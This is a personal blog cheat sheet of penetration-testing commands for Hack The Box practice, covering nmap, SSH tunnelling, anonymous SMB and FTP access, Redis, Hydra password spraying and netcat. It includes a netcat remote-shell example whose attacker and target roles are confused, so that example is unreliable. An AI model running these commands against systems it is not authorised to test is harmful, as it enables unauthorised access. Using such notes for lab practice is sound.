 ```yaml
---
title: "Useful Notes"
date: 2024-08-25T13:38:26Z
draft: false
author: "James"
tags: 
  - "Security"
  - "Penetration-Testing"
  - "Linux"
summary: "A page dedicated to quick and easy commands used."
---
```


## Introduction

I have decided to start progressing on Hack The Box while I have some free time to sharpen my skills and knowledge. 

## Useful commands 

#### Nmap

```nmap -F IPADDRESS``` - Fast scan the top 100 ports
```nmap -sV IPADDRESS``` - Service version detection
```nmap -O IPADDRESS``` - Operating system detection 
```nmap -sT IPADDRESS```- TCP Scan
```nmap -p- IPADDRESS```- Scan all ports

#### SSH

SSH Tunnelling to establish a connection with the remote ssh server and will listen for connections on the local port 1234 and forward to remote server on port 22. We can then access the services on the remote machine as if they were running locally. 
```ssh -L 1234:localhost:22 user@{target_IP}```

#### SMB

```smbclient -L``` is used to list file shares.

```smbclient -L \\IPADDRESS -U anonymous```
  Use tag "-W" to specify the workgroup.

Use ```get``` & ```put``` retrospecifively to download/upload files.

#### Redis
```redis-cli -u redis://host:port``` - To connect
```redis-cli -h``` - To get hostname

Once connected, run the ```info``` command to get the information about the system. 

Run the ```select``` command to enter the database.

#### Samba

```smbmap -H 10.10.10.3``` - Find shares

#### FTP

The below result from an Nmap scan shows the server allows anonymous logins:

```ftp-anon: Anonymous FTP login allowed (FTP code 230)```

#### Passwords

We can use Hydra to iterate through usernames and use the same password for each user via SSH:

```hydra -L users.txt -p 'PASSWORD' {target_IP} ssh```

#### Network Sockets

## Command: `ss -tlnp`

The command `ss -tlnp` is used to display detailed information about network sockets on a Linux system. Here's a breakdown of what each option means:

- **`ss`**: This is the command used to display network socket information (similar to `netstat`, but faster and more powerful).
  
- **`-t`**: Show **TCP** sockets only.
  
- **`-l`**: Show only **listening** sockets (i.e., sockets that are waiting for incoming connections, such as servers).

- **`-n`**: Show numerical addresses and ports instead of resolving hostnames or service names. For example, it shows `127.0.0.1` instead of `localhost`, and `80` instead of `http`.

- **`-p`**: Show the **process** using the socket, along with the PID (Process ID) and the name of the program.

### In summary:
The command `ss -tlnp` shows all **listening TCP sockets** on the system along with the **processes** that own those sockets, displaying addresses and ports in **numerical format**.

### Example output:
```bash
State   Recv-Q  Send-Q  Local Address:Port   Peer Address:Port  Process
LISTEN  0       128     127.0.0.1:5432       0.0.0.0:*          users:(("postgres",pid=12345,fd=7))
LISTEN  0       128     0.0.0.0:22           0.0.0.0:*          users:(("sshd",pid=6789,fd=3))


#### Netcat 

## `netcat` Command Summary

`netcat` (or `nc`) is a versatile tool used for networking tasks such as TCP/UDP communication, port scanning, file transfer, and simple chats.

```bash
# 1. Basic Syntax
nc [options] [hostname] [port]

# 2. Start a TCP Server
nc -l -p 1234

# 3. Connect to a TCP Server
nc [hostname] 1234

# 4. File Transfer
# On the server (receiving):
nc -l -p 1234 > received_file
# On the client (sending):
nc [server_ip] 1234 < file_to_send

# 5. Port Scanning
nc -zv [hostname] [port_range]
# Example:
nc -zv localhost 20-80

# 6. Simple Chat
# Listener:
nc -l -p 1234
# Connector:
nc [hostname] 1234

# 7. UDP Mode
# Send UDP packets:
nc -u [hostname] 1234
# Listen for UDP packets:
nc -u -l -p 1234

# 8. Remote Shell
# Listener (attacker's machine):
nc -l -p 4444 -e /bin/bash
# Client (target's machine):
nc [attacker_ip] 4444

# 9. Check if a Port is Open
nc -zv [hostname] [port]
# Example:
nc -zv example.com 80

# 10. Set a Timeout
nc -w 3 [hostname] 1234
